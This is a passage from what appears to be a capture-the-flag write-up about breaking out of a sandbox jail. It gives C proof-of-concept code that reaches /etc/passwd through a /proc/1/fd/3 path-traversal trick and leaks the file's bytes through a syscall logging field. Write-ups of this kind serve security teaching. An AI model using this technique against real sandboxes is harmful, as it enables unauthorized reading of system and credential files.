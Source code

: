         fclose(log);
    }



This simply creates a 64 byte buffer, sets the first element to 0xdfdf
(57311 in decimal), writes that to the log, and exits. If this works,
I'd expect to see a Syscall 57311 in the logs with return 0.

I'll compile the binary with `gcc -o poc read_file.c`, and upload `poc`.
In the results, in the "Ignored Syscalls" section, I'll find it:

![](/img/image-20220907141700007.png)

#### Read File

Now I'll try to read a file outside the jail and put the first eight
bytes into that same log:



    #include <stdio.h>

    int main() {
        FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../../../etc/passwd", "r");
        FILE *log = fopen("/log", "a");
        char buf[64] = {0};
        ((unsigned long*)buf)[0] = 0xdfdf;
        fread(&buf[56], 1, 8, file_to_read);
        fwrite(buf,1,64,log);

        fclose(file_to_read);
        fclose(log);
    }



The `fread` will get 8 bytes from `passwd` and store it 56 bytes into
the 64 byte buffer, which is where the return code goes.

When I compile and upload this one, the entry for 0xdfdf has a non-zero
response:

![](/img/image-20220907142040142.png)

That decodes to `root:x:0` (once the byte order is fixed):



    >>> bytes.fromhex('303a783a746f6f72').decode()
    '0:x:toor'
    >>> bytes.fromhex('303a783a746f6f72').decode()[::-1]
    'root:x:0'



That's success.

#### Read Entire File

Next I want to get more than eight bytes. I'll loop over the file,
reading 8 bytes into the return address, and and writing another log
entry:
